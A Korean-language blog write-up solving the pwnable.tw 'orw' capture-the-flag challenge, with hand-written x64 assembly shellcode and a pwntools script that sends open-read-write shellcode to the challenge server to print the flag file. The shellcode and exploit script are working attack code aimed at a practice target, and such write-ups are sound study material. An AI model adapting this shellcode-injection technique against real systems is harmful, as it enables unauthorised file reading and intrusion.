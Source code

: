 ```yaml
---
title: pwnable.tw orw풀이
published: 2022-07-01
tags: [shellcode]
category: pwn
draft: false
---
```


# orw
![alt text](image.png)

문제에서 open, read, write 
syscall만 허용이 된다.

![
](image-1.png)

드림핵에서 풀었던 기초적인
쉘코드 문제랑 완전 비슷하다.

shellcraft 함수를 사용해서 풀어보겠다.

![alt text](image-3.png)

x86이다.

![alt text](image-4.png)

x86 syscall table 문서 참고해서 인자 잘 넣어주면 된다.

```asm
    mov rax, 0x72672f666c616700
    push rax
    mov rax, 0x002f686f6d652f6f
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    syscall
    mov rdi, rax
    mov rsi, rsp
    sub rsi, 0x1000
    mov rdx, 0x1000
    mov rax, 0x0
    syscall

    mov rdi, 1
    mov rax, 0x1
    syscall

    xor rdi, rdi
    mov rax, 0x3c
    syscall    
```

전에 만들었던 x64 쉘코드인데
rax, eax 호환되는 것처럼 쉽게 생각하면 쉽게 풀 수 있다.

```python
from pwn import *
r = remote('chall.pwnable.tw', 10001)
context.arch = 'i386'

dir = "/home/orw/flag"

shellcode = shellcraft.open(dir)
shellcode += shellcraft.read('eax', 'esp', 0x30)
shellcode += shellcraft.write(1, 'esp', 0x30)

r.sendlineafter(b"Give my your shellcode:", asm(shellcode))
r.interactive()

```

